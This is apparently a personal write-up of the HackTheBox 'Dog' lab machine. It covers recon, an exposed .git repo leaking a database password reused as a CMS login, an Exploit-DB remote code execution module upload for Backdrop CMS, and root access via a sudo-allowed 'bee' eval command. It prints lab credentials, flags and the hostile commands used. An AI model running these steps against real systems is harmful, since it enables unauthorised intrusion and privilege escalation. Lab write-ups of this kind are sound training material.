 machine : [Dog HackTheBox](https://app.hackthebox.com/machines/Dog)

# Enumeration : 
First starting by scanning wih nmap 

```
# Nmap 7.95 scan initiated Sat Apr  5 12:13:03 2025 as: /usr/lib/nmap/nmap --privileged -sV -oN namp.txt 10.10.11.58
Nmap scan report for 10.10.11.58 (10.10.11.58)
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Apr  5 12:20:20 2025 -- 1 IP address (1 host up) scanned in 437.00 seconds
```

and adding the domain to the `etc/hosts` 

```bash
$sudo echo "10.10.11.58      dog.htb" > /etc/hosts
```

we have something on the web  

![[Pasted image 20250406065318.png]]

Dogs website . cool ! 
running a `whatweb` check 
```bash
┌──(kali㉿kali)-[~/…/CTF/HTB/machines/dog]
└─$ whatweb  dog.htb       
http://dog.htb [200 OK] Apache[2.4.41], Content-Language[en], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.58], UncommonHeaders[x-backdrop-cache,x-generator], X-Frame-Options[SAMEORIGIN]
```

the site running under backdrop CMS  , keepingthat in mind 
investigating more with dirsearch 

```
┌──(kali㉿kali)-[~/…/CTF/HTB/machines/dog]
└─$ dirsearch -u http://dog.htb/  -w /usr/share/seclists/Discovery/Web-Content/big.txt     
  
  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 20478

Output File: /home/kali/repo/obsidian-vault/CTF/HTB/machines/dog/reports/http_dog.htb/__25-04-06_05-10-45.txt

Target: http://dog.htb/

[05:10:45] Starting: 
[05:10:47] 301 -  301B  - /.git  ->  http://dog.htb/.git/                   
[05:11:07] 301 -  301B  - /core  ->  http://dog.htb/core/                   
[05:11:16] 301 -  302B  - /files  ->  http://dog.htb/files/                 
[05:11:38] 301 -  304B  - /layouts  ->  http://dog.htb/layouts/             
[05:11:49] 301 -  304B  - /modules  ->  http://dog.htb/modules/             
[05:12:21] 200 -  528B  - /robots.txt                                       
[05:12:25] 403 -  272B  - /server-status                                    
[05:12:27] 301 -  302B  - /sites  ->  http://dog.htb/sites/                 
[05:12:35] 301 -  303B  - /themes  ->  http://dog.htb/themes/               
Task Completed
```

looking if theres some hidden subdmains 

```
gobuster dns -d dog.htb -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     dog.htb
[+] Threads:    10
[+] Timeout:    1s
[+] Wordlist:   /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Progress: 37126 / 100001 (37.13%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 37140 / 100001 (37.14%)
===============================================================
Finished
===============================================================
```

it doesnt appear to have any subdomain ... trying to look up on the site 
we have something in  `/core` `/files` `/.git` `/robots.txt` 

the `/.git`  and `/core`  appear to have something  
`/core` : File directory 

![[Pasted image 20250406070648.png]]
Appear to be the source code of [backdrop CMS](https://github.com/backdrop/backdrop)

# Exploitaiton 
the `/.git` appears to be a git repo .. reconstructing it with [githacks](https://github.com/lijiejie/GitHack) 

![[Pasted image 20250406073554.png]]

already done everything .. after investingating the `/core`  folder i found out this under the `update.php` 

---
further investigation leads some creds for the login page , theres a password in the `./settings.php` file 
```
$database = 'mysql://root:BackDropJ2024DS2024@127.0.0.1/backdrop';

```
some connection to the localhost , and something else in the 

```
$cat /files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json 
{
    "_config_name": "update.settings",
    "_config_static": true,
    "update_cron": 1,
    "update_disabled_extensions": 0,
    "update_interval_days": 0,
    "update_url": "",
    "update_not_implemented_url": "https://github.com/backdrop-ops/backdropcms.org/issues/22",
    "update_max_attempts": 2,
    "update_timeout": 30,
    "update_emails": [
        "tiffany@dog.htb"
    ],
    "update_threshold": "all",
    "update_requirement_type": 0,
    "update_status": [],
    "update_projects": []
}
```

some users called tiffany 

if we try these creds `tiffany:BackDropJ2024DS2024`   on the backdrops CMS we authenticate 
![[Pasted image 20250407045856.png]]


searching for some exploit find this one https://www.exploit-db.com/exploits/52021 

```bash 
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 52021.py http://dog.htb
Backdrop CMS 1.27.1 - Remote Command Execution Exploit
Evil module generating...
Evil module generated! shell.zip
Go to http://dog.htb/admin/modules/install and upload the shell.zip for Manual Installation.
```

for our case , the CMS doesnt accept normal file under  `http://dog.htb/?q=admin/installer/manual` when we do manual install so we have to convert `shell` folder into a `.tar.gz` file and upload it 

![[Pasted image 20250407100527.png]]
succefully installed now we can go to the `http://dog.htb/modules/shell/shell.php
` like it said in the instruction 

for more enumeration we found other users like this 
![[Pasted image 20250407100807.png]]

trying to ssh with the password we found intially 
![[Pasted image 20250407100958.png]]
boom we have a shell now 
retrieving the user flag 

user.txt :  09879539d5be3b772db3f3922d16083f 
# PrivEscalation
trying to get the root flag now .. 

we can use some of the linpease script but i prefer not to cuz its too verbose , so looking manually would be easier then looking thru a tons of logs 

```bash
johncusack@dog:~$ sudo -l 
Matching Defaults entries for johncusack on dog:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee

```

we can run sudo for a binarry called `bee` 
its a command utility that allows user to intercat with the CMS 

further investigation we have some ports that are running locally 
```bash 
johncusack@dog:~$ ss -tulpn 
udp      UNCONN    0         0          127.0.0.53%lo:53        0.0.0.0:*  
tcp      LISTEN    0         70             127.0.0.1:33060     0.0.0.0:*        
tcp      LISTEN    0         151            127.0.0.1:3306      0.0.0.0:*
tcp      LISTEN    0         4096       127.0.0.53%lo:53        0.0.0.0:*
tcp      LISTEN    0         128              0.0.0.0:22        0.0.0.0:*
tcp      LISTEN    0         511                    *:80              *:*
tcp      LISTEN    0         128                 [::]:22           [::]:*   
```

port `3306` and `33060`  are running locally , soo it might have something there 
we cannot get the process id so we dont know who is running that port but lets assume its root for now 

well it appear nothing is ther .. we investiage more with the [bee](https://github.com/backdrop-contrib/bee)  command , 
we can execute a php script under root  with the eval option since we know the `eval` comamnd almost do the same thing .. that is a good way to end up everything 

```bash
  eval
   ev, php-eval
   Evaluate (run/execute) arbitrary PHP code after bootstrapping Backdrop.
```

```bash 
johncusack@dog:~$ sudo /usr/local/bin/bee ev "system('cat /root/root.txt')" 
 ✘  The required bootstrap level for 'eval' is not ready. 
```

 wat is this level ?? 
 since we know the bee command is just linked file to a php script 
 `cat /backdrop_tool/bee/bee.php`

when reading the script we found out that this level is just the hosting directory under `/var/www/html` 

```bash
johncusack@dog:/var/www/html$ sudo /usr/local/bin/bee ev "system('cat /root/root.txt')" 
fbbec2f89e831c6d29db5e496e2dead4
```

root.txt :  fbbec2f89e831c6d29db5e496e2dead4 
[[machines]]